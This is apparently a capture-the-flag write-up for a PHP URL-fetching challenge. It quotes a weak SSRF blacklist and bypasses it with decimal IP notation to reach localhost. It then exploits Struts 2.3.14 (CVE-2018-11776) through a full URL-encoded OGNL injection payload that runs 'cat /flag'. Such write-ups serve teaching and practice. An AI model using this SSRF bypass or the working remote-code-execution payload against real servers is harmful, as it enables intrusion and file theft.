This challenge is another PHP application, where you can fetch url and see the response.  
It's an obvious SSRF Challenge with a blacklist filter:  
```php
$url = $_POST['url'];
$parsed = parse_url($url);
$scheme = $parsed['scheme'];
if($scheme !== 'http'){
	die('Hacking attempt');
	}
$blacklist = ["127","local","::","http://0/"];
foreach ($blacklist as $value) {
	if (stripos($url,$value) !== false) 
		die('Hacking attempt');
}
if (substr_count($parsed['host'], '.') > 0){
	die('hacking attempt');
}
```
So it seems its not possible to use other sheme than http, also there is a filter on localhost address and ipv6 notation, and there is a count for dots in host scheme,  
so it seems domain bypass is not possible, One possible way to bypass this filter is use decimal notation http://2130706433/  
The next step is scan internal network for other services, the only other service is running on port 8080, which shows tomcat default page.  
The hint suggested that I was using Struts version 2.3.14, you can  then find out  that this [version](https://www.securityfocus.com/bid/105125) was vulnerable to CVE-2018-11776 
I was using this exact container : https://github.com/bhdresh/CVE-2018-11776 
The only difference is that your payload will be through ssrf to you might have to encode your payloads  
After getting rce, the goal was to read the file /flag , the full payload(in browser) looks like : http://2130706433:8080/struts2-showcase-2.3.14/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/flag%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/help.action